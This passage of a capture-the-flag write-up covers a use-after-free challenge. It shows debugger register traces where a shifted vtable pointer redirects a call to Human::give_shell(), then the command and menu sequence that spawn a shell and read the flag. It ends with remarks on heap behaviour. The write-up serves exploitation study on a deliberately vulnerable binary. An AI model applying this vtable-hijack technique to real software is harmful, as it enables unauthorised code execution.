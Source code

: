 So - the bit that looks to be breaking us is the add of 8 to RAX. If we subtract that from our payload's address, and then retry, we get:

```nasm
... s ...
RAX: 0x249ac50 --> 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]        # 0x7f3fe2273f18)
RBX: 0x249aca0 --> 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]        # 0x7f3fe2273f18)
... s ...
RAX: 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]        # 0x7f3fe2273f18)
RBX: 0x249aca0 --> 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]        # 0x7f3fe2273f18)
... s ...
RAX: 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
RBX: 0x249aca0 --> 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]
... s ...
RDX: 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
=> 0x400fe2 <main+286>:	call   rdx
... s ...
0x000000000040117a in Human::give_shell() ()
```

Sweet, we're in! Now we can just `cat flag` and be done.

```bash
./uaf 8 /tmp/z3n0
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
<_______________>
$
```

One thing to note: I did notice that it only works if you press the after option twice. Doing so only once seg faults. I imagine this is because we have two Human objects, so we need to be able to overwrite both? I spent a bit of time looking around for good explanations of how the Heap's memory managment works, and came across [this paper, "Understanding the heap by breaking it"](https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf).
